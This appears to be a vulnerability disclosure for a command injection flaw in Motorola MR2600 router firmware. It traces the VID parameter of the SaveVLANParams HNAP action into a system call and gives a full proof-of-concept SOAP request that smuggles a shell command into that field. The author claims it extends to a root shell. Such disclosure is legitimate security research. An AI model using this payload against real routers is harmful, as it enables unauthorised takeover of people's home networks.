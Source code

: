 # Motorala MR2600 MR2600-v1.0.14.img Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.motorola.com/
- Firmware download address ： https://www.motorolacable.com/support/MR2600/software/

## 1. Affected version

![image-20220522091248943](img/image-20220522091248943.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220522105704463](img/image-20220522105704463.png)

By/SaveVLANParams/VLANIDInfoLists/VLANID: 0 / VID to v18 parameters of access to content

![image-20220522105721895](img/image-20220522105721895.png)

Format v18 into v54 with the snprintf function, setting v54 to the value of WAN_WAN0_IFNAME

![image-20220522105841959](img/image-20220522105841959.png)

The rc program transmits the obtained content to V11 through nvram_safe_get, formats V11 into V43 through snprintf, and finally executes the content in V43 through Twsysytem. Command injection vulnerability exists

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware MR2600-v1.0.14.img
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://81.70.52.167:7018
Connection: close
Referer: http://81.70.52.167:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SaveVLANParams xmlns="http://purenetworks.com/HNAP1/">
	<VLANIDInfoLists>
		<VLANID:0>
			<VID> && ls > /tmp/456 && echo 1</VID>
		</VLANID:0>
	</VLANIDInfoLists>
</SaveVLANParams>
</soap:Body>
</soap:Envelope>
```

![image-20220405112133823](img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

![image-20220522091701627](img/image-20220522091701627.png)